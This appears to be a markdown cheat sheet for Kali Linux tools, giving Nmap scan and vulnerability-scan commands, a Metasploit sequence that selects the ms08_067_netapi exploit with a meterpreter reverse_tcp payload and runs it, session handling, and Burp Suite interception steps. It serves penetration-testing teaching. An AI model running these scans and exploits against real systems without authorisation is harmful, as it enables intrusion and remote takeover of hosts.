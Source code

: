 # 🛠️ Kali Linux Tools (Nmap, Metasploit, Burp Suite) Comprehensive Cheatsheet

## 🔹 Introduction
Kali Linux is a **penetration testing** and **ethical hacking** distribution equipped with powerful security tools like **Nmap, Metasploit, and Burp Suite**.

---

## 🔹 Nmap (Network Mapper)
### ✅ Basic Scanning
```sh
# Scan a single target
nmap example.com

# Scan multiple targets
nmap 192.168.1.1 192.168.1.2

# Scan a range of IPs
nmap 192.168.1.0/24
```

### 📌 Advanced Scanning
```sh
# Scan with OS detection, version detection, script scanning, and traceroute
nmap -A example.com

# Scan for specific ports
nmap -p 22,80,443 example.com

# Scan all 65,535 ports
nmap -p- example.com
```

### 📌 Vulnerability Scanning
```sh
# Scan for known vulnerabilities
nmap --script vuln example.com
```

---

## 🔹 Metasploit Framework (msfconsole)
### ✅ Start Metasploit
```sh
msfconsole
```

### 📌 Searching for Exploits
```sh
# Search for exploits related to Apache
search apache

# Show detailed information about an exploit
info exploit/unix/ftp/vsftpd_234_backdoor
```

### 📌 Using an Exploit
```sh
# Select an exploit
use exploit/windows/smb/ms08_067_netapi

# Show required options
show options

# Set target IP
set RHOSTS 192.168.1.100

# Set payload
set PAYLOAD windows/meterpreter/reverse_tcp

# Execute the exploit
exploit
```

### 📌 Post-Exploitation
```sh
# List active sessions
sessions -l

# Interact with a session
sessions -i 1
```

---

## 🔹 Burp Suite (Web Application Security)
### ✅ Intercepting HTTP Requests
1. Open **Burp Suite** and go to **Proxy > Intercept**.
2. Enable **Intercept is on**.
3. Configure **browser proxy settings** to `127.0.0.1:8080`.

### 📌 Scanning for Vulnerabilities
1. Navigate to **Target > Site Map**.
2. Right-click the target and select **Active Scan**.

### 📌 Exploiting with Repeater
1. Go to **Repeater**.
2. Modify HTTP requests manually.
3. Send requests and analyze responses.

### 📌 Burp Suite Common Shortcuts
| Action | Shortcut |
|--------|----------|
| Send to Repeater | Ctrl + R |
| Send to Intruder | Ctrl + I |
| Forward Request | Ctrl + F |
| Drop Request | Ctrl + D |

---

## 🔹 Best Practices
- **Use Nmap for reconnaissance** before launching attacks.
- **Metasploit should only be used ethically** and with permission.
- **Burp Suite helps analyze web vulnerabilities** in-depth.
- **Keep Kali Linux tools updated** for the latest security patches.

---
